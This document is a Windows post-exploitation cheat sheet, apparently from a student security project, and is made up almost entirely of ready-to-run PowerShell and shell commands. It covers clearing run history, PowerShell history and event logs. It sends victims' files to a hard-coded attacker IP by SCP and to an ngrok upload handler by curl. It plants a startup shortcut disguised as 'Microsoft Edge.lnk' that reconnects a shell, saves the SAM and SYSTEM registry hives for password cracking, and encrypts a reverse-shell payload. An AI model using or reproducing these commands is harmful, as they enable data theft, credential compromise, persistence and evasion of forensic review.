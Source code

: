 # Clear logs

1. Delete winrun history

   ```powershell
   Remove-Item -Path "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\RunMRU" -Recurse
   ```

2. List powershell command history

   ```powershell
   rm (Get-PSReadlineOption).HistorySavePath
   ```

3. Clear PowerShell events log (**Administrator only**)

   ```powershell
   clear-eventlog -logname "Windows PowerShell"
   ```

   

# Files exfiltration

### Method 1 - Using SCP

> For example, Hacker's SSH server is **43.56.175.249:55522**

On hacker's SSH server:

```bash
# Open simple python http server on hacker's host
cd ~/.ssh
python3 -m http.server 8880
```

On victim, download and configure private-key:

```bash
# Get private key from hacker's server
curl -o "$home\id_rsa" http://43.56.175.249:8880/id_rsa

# Configure permission
icacls "$home\id_rsa" /inheritance:r; icacls "$home\id_rsa" /grant:r ($(whoami) + ':R')
```

Exploit:

```powershell
# Open new process to send files
Start-Process powershell -windowstyle hidden {scp -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -i "$home\id_rsa" -P 55522 -r "<Full path to folder>/*.docx" lamnc2@43.56.175.249:/home/lamnc2/data_exfil}
```



Copy file from SSH server to local machine:

```bash
scp -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -i "$home\id_rsa" -P 55522 -r lamnc2@43.56.175.249:/home/lamnc2/data_exfil "I:\Temp_safe_to_delete\tmp"
```



### Method 2 - Using Curl

```powershell
# set $folder = folder to upload file
# set $upload_handler = url to upload handler on server
# powershell cmd: IEX (iwr -UseBasicParsing https://raw.githubusercontent.com/[link to this file])
$folder = 'I:\Personal\';
$upload_handler ='http://bc416b4d16e3.ngrok.io/upload_handler.php';
$name = [uri]::EscapeDataString((whoami));
$a = ''; (Get-ChildItem $folder -Filter '*' -Recurse -File | %{$a = $a + " -F `"file[]=@" + $_.FullName + "`" "});
$eval = "curl.exe $a $upload_handler`?folder=$name";
IEX $eval;
```

#### one-line

```powershell
$folder = 'F:\IAR401\';  $upload_handler='http://bc416b4d16e3.ngrok.io/upload_handler.php'; $name = 'hi'; $a = ''; (Get-ChildItem $folder -Filter '*.docx' -Recurse -File | %{$a = $a + " -F `"file[]=@" + $_.FullName + "`" "}); $eval = "curl.exe $a $upload_handler`?folder=$name";IEX $eval;
```



# Startup shortcut to reconnect shell

### Idea

Store a malicious shortcut in startup folder. 

- startup folder (for current user) `C:\Users\<current user>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` = `$HOME\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`
- startup folder (for public user)



### Create malicious shortcut

![image-20201102112123102](I:\Personal\PowerShell scripts images\image-20201102112123102.png)



### Procedure

1. change dir to startup folder: `cd "$HOME\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"`

2. download malicious shortcut using 

   1. **Cmd**:

      `curl -L https://github.com/lamthanhnam/fpt_do-an_2020/raw/master/post_exploitation/start_up/hi.lnk` 

      - `-L`: follow redirection

   2. **Powershell**:

      `curl https://github.com/lamthanhnam/fpt_do-an_2020/raw/master/post_exploitation/start_up/hi.lnk`

   

#### **One-line command**

```bash
cd "$HOME\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"; curl -o "Microsoft Edge.lnk" https://github.com/lamthanhnam/public/raw/master/start_up/hi.lnk
```





# Get SAM and SYSTEM file for password decryption

```powershell
reg save hklm\sam $env:PUBLIC\Documents\hi_sam
reg save hklm\system $env:PUBLIC\Documents\hi_system
```





# Symmetric Encryption

Apply symmetric encryption to encrypt payload

```powershell
# Use with one-line command only
# Initial vars
$PayloadPath = "$pwd\rs_pay_final"
# $key = "1234567890123456" #<16, 24, 32 chars>
# $skey = [byte[]]("$key").ToCharArray()
$skey = (1..16)

# create secure string
$content = cat $PayloadPath

#---------- Encrypt -------------
$ss = ConvertTo-SecureString -String "$content" -Force -AsPlainText
$cipher = ConvertFrom-SecureString -SecureString $ss -Key $skey #Converts a secure string to an encrypted standard string

#----------- Decrypt -------------
# Apply to: https://docs.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.marshal.securestringtobstr?view=netcore-3.1#moniker-applies-to
# Ref: https://stackoverflow.com/a/28353003

# ----- Prepare variable for decrypt
$cipher = "..."
$skey = [byte[]]
$ss = ConvertTo-SecureString -String $cipher -Key $skey #Converts an encrypted standard string to a secure string

# ----- DECRYPT METHOD 1
Function ConvertTo-UnsecureString {
   Param (
       [System.Security.SecureString]$ss
   )
   Try { # main decode function
       $ptr = [System.Runtime.InteropServices.Marshal]::SecureStringToGlobalAllocUnicode($ss)
       [System.Runtime.InteropServices.Marshal]::PtrToStringUni($ptr)
   }
   Finally {
       [System.Runtime.InteropServices.Marshal]::ZeroFreeGlobalAllocUnicode($ptr)
   }
}
$plain = ConvertTo-UnsecureString $ss

# ----- DECRYPT METHOD 2
$BSTR = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($ss)
$plain = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($BSTR)

echo $plain

# ---------- Print output -------------------
Write-Host -NoNewline "$cipher"
#-------------- Write encrypted payload to file -------
Out-File -FilePath .\encrypted_rs_pay -InputObject "$func`n$cipher" -Encoding ASCII
Out-File -FilePath "$pwd\encrypted_payload" -InputObject "$cipher" -Encoding ASCII -NoNewline ;
```

